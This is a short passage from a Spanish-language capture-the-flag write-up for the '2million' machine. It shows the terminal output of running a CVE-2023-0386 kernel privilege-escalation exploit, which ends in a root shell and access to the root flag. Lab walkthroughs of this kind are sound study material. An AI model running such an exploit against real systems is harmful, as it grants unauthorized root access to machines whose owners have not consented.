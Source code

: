 ```bash
/file
[+] ioctl callback
path /file
cmd 0x80086601
```

```bash
admin@2million:~/CVE-2023-0386$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 May 19 03:53 .
drwxr-xr-x 6 root   root     4096 May 19 03:53 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:~/CVE-2023-0386# whoami
root
root@2million:~/CVE-2023-0386#
```

Ya somos el usuario `root` y podemos visualizar la flag (root.txt).